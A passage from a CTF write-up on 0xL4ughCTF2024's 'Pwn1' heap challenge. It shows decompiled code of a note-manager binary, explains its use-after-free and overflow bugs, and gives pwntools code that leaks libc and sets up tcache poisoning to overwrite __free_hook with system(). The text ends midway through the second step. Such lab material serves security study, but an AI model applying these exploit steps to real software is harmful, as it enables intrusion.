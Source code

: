 # 0xL4ughCTF2024 PWN - Pwn1

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/3077be0a-a14b-44d0-aba1-eb83bab960de)

The pwn1 challenge was a medium difficulty pwn challenge with 63 solves

## Initial Analysis

Unzipping the file gives us an ELF file, libc-2.31 and the loader for it. To start off, we will first patch the binary using [pwninit](https://github.com/io12/pwninit) to use the provided libc.

```shell
└─$ file chall_patched     
chall_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, BuildID[sha1]=96e20e69c031cc67b1471e7f8435b9967b5a155f, for GNU/Linux 3.2.0, not stripped
```

Its a 64-bit executable and it is not stripped so thats always helpful.

```shell
└─$ checksec --file=chall_patched 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   77 Symbols        No    0               1               chall_patched
```

Looks like all the protections are enabled.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/1d16fe99-296d-4339-b3ee-40248d2396bc)

Running the binary shows that it is one of those menu challenges where you can manage your notes.

## Decompiled Code

```c
undefined8 main(EVP_PKEY_CTX *param_1)

{
  long in_FS_OFFSET;
  int option;
  int noteToDelete;
  int totalNotes;
  char *local_1b8;
  char *pChunk;
  char *notes [51];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  totalNotes = 0;
  while( true ) {
    while( true ) {
      while( true ) {
        while( true ) {
          while( true ) {
            menu();
            __isoc99_scanf("%d",&option);
            getchar();
            if (option != 1) break;
            pChunk = (char *)malloc(0x28);
            puts("Enter the note");
            fgets(pChunk,10,stdin);
            puts("Note created");
            notes[totalNotes] = pChunk;
            totalNotes = totalNotes + 1;
          }
          if (option != 2) break;
          puts("Which note do you want to delete?");
          __isoc99_scanf("%d",&noteToDelete);
          getchar();
          if (totalNotes < noteToDelete) {
            puts("Invalid choice");
          }
          else {
            free(notes[noteToDelete + -1]);
          }
        }
        if (option != 3) break;
        puts("Which note do you want to edit?");
        __isoc99_scanf("%d",&noteToDelete);
        getchar();
        if (totalNotes < noteToDelete) {
          puts("Invalid choice");
        }
        else {
          fgets(notes[noteToDelete + -1],100,stdin);
          puts("Note edited");
        }
      }
      if (option != 4) break;
      puts("Which note do you want to read?");
      __isoc99_scanf("%d",&noteToDelete);
      getchar();
      if (totalNotes < noteToDelete) {
        puts("Invalid choice");
      }
      else {
        puts(notes[noteToDelete + -1]);
      }
    }
    if (option == 5) break;
    if (option == 10) {
      local_1b8 = (char *)malloc(0x4b0);
      puts("Enter the note");
      fgets(local_1b8,10,stdin);
      puts("Note created");
      notes[totalNotes] = local_1b8;
      totalNotes = totalNotes + 1;
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

- From the decompiled code above, we can see that option 1 creates a note by allocating memory from the heap and adds the pointer to that chunk into an array. 
- Option 2 lets us delete a note by free-ing up the heap chunk. However, the pointer to that specific chunk is still inside our array which gives us a Use-After-Free vulnerability. 
- Option 3 lets us edit a note but theres an obvious buffer overflow there. 
- Option 4 lets us read the content inside the heap chunk which we will use to get leaks later. 
- Additionally, theres option 10 which creates a really big heap chunk.

## Attack Strategy

I recently read a writeup from last week's CTF which was a heap challenge whereby the author overwrites the __free_hook by poisoning the tcache to create a fake chunk inside libc. So when I saw this challenge, this was the first thing that came to my mind. I did a quick google search and found that __free_hook has been removed from libc for version 2.34 and above. Luckily, the libc version that we are using is 2.31.

Heres some explanation of what __free_hook is from ChatGPT

> "__free_hook" is a hook function in the GNU C Library (glibc) that allows programmers to intercept calls to the free() function. The purpose of __free_hook is to provide a mechanism for developers to customize the behavior of memory deallocation. By default, __free_hook points to the standard free() function. However, you can set __free_hook to point to your own custom function

Our attack flow will be as follows :

1. Leak libc with option 10
2. Overflow into a free'd chunk to modify its FD and BK pointers to point to __free_hook
3. Create a chunk inside __free_hook and modify it to point to system()
4. Call free() on a chunk with "/bin/sh"

## Step 1 : Leak libc

```python
# Step 1 : Leak libc
p.sendlineafter(b"Exit\n", "10") # 1
p.sendline("AAAA")
create("AAAA") # 2
delete(1)
read(1)
leak = p.recvline().strip()
leak = leak + b"\x00\x00"
leak = u64(leak)
log.info(f"Libc leak : {hex(leak)}")
libc.address = leak - (0x007f99c0dd0be0 - 0x007f99c0be5000)
log.info(f"Libc base : {hex(libc.address)}")
```

We know that option 10 creates a really big heap chunk. When this big chunk is freed, it goes into the unsorted bin rather than the tcache because of its size. When this chunk is inside the unsorted bin, it contains pointers to the main arena, which is inside libc. Then, we will read its content to get a leak

Note : We will have to create another chunk (chunk #2) to prevent the big chunk from coalescing with the top chunk when free'd.

Then, to calculate the base of libc, we need to find the offset of the leak from the base. We can do this by obtaining the leak, then attach gdb to the process and run the command "vmmap" to find the base of libc. The leak should be subtracted with the base to find the offset. In my case, 0x007f99c0dd0be0 is the leak and 0x007f99c0be5000 is the base. We do this so that we can automatically obtain the libc address everytime the code is executed.

## Step 2 : Overflow into a free'd chunk to modify its FD and BK pointers to point to __free_hook

```python
create("BBBB") # 3
create("CCCC") # 4
create("DDDD") # 5
delete(5)
delete(4)
```

We will create a few chunks and free some of them.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/474118db-717c-458a-afca-ffd045d324ba)

The 2 chunks that we free'd are now in the tcache

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/ba7e9adf-286b-454b-b436-08ad58224b0e)

These are the 3 chunks that we created. The 2 chunks that we free now contain pointers to the next chunk.
